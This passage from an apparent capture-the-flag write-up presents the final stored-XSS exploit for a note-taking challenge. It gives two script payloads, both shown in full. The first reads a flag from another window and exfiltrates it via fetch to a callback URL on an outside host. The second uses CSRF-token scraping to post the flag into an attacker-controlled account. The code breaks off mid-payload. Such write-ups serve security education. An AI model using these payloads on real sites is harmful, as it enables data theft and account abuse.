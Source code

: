 ### Final Exploit

Now it was time to piece it all together. To run the exploit yourself, create a
note with the content:

```html
<script>
  //Only run in the headless browser
  if (window.location.hostname == '0.0.0.0')
  {
    //Get a reference to the flag window
    const flagWindow = window.open('', 'flagWindow');

    //Get the flag
    const flag = flagWindow.document.querySelector('p').innerText;

    //Exfiltrate
    fetch('[Callback URL here; check out https://hookbin.com]', {
      method: 'POST',
      mode: 'no-cors',
      body: flag
    });
  }
</script>
```


However, if you want to stay true to the challenge and avoid using the internet,
create a note with the below content. I've omitted some comments to keep the
note content under the 1000 character limit.

```html
<script>
  //Settings
  const username = 'aaaa';
  const password = 'bbbb';

  const main = async () =>
  {
    if (window.location.hostname == '0.0.0.0')
    {
      const flagWindow = window.open('', 'flagWindow');
      const flag = flagWindow.document.querySelector('p').innerText;

      //Login to the account we control
      await fetch('/login', {
        method: 'POST',
        body: new URLSearchParams({
          username,
          password
        })
      });

      //Get the CSRF token
      const res = await fetch('/new');
      const token = new DOMParser()
        .parseFromString(await res.text(), 'text/html')
        .querySelector('input[name="_csrf"][type="hidden"]').value;

      //Exfiltrate
      await fetch('/new', {
        method: 'POST',
        body: new URLSearchParams({
          title: 'Flag',
          content: flag,
          '_csrf': token
```